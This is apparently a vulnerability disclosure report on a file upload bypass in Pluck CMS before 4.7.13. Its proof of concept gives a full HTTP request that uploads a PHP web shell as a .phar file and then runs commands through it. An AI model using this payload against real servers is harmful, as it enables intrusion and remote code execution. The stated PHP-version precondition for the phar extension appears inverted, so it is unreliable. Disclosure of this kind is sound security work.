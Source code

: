 # Vulnerability Type

Unrestricted File Upload

# Description

A file upload restriction bypass vulnerability in Pluck CMS before 4.7.13 allows an admin privileged user to gain access in the host through the "manage files" functionality, which may result in remote code execution.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/pluck-cms/pluck/
 - Version: 4.7.11
 - Tested on: Windows 10

 ## Exploit Description

The file validation mechanism is incomplete, allowing `.phar` file uploads when the `action` and `submit` parameters meet specific path constraints.

 ## Steps to Reproduce

  1. Log in as an admin user.
  2. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
  3. The file will be uploaded and can be accessed through the url.

 ## Proof Of Concept
```
POST /admin.php?action=files HTTP/1.1
Host: pluck
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123
Cookie: PHPSESSID=<valid_admin_session>; <token_name>=pluck_loggedin

------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="filefile"; filename="exploit.phar"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="submit"

1
------WebKitFormBoundaryABC123--

# Access uploaded shell via:
GET /files/exploit.phar?cmd=id HTTP/1.1
Host: pluck

# Required preconditions:
1. Attacker must possess valid admin session cookies
2. Server must have phar extension enabled (default in PHP <5.3.0)
3. File must retain .phar extension after upload (no .txt appending)
```

